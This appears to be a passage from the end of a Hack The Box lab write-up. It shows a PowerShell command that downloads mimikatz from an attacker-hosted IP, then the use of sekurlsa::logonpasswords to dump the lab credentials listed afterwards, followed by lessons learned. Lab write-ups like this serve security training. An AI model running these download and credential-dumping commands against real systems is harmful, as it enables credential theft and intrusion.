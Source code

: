 ```none
Invoke-WebRequest -Uri http://10.10.14.51:8000/mimikatz.exe -OutFile m.exe
```

And ran the `sekurlsa::logonpasswords` to get the following creds.

- Username: `sandra`
- Password: `Password1234!`

## Lessons Learned

- When using a new exploit, such as Juicy Potato, do lots of research on the first encounter. Makes life much easier in the future.
- Watch out for typos and `echo`ing content into files. Check before upload!
- Make one change at a time, check, then try something else.

## Useful Resources

- Check the official/non-official walkthroughs on Hack The Box website

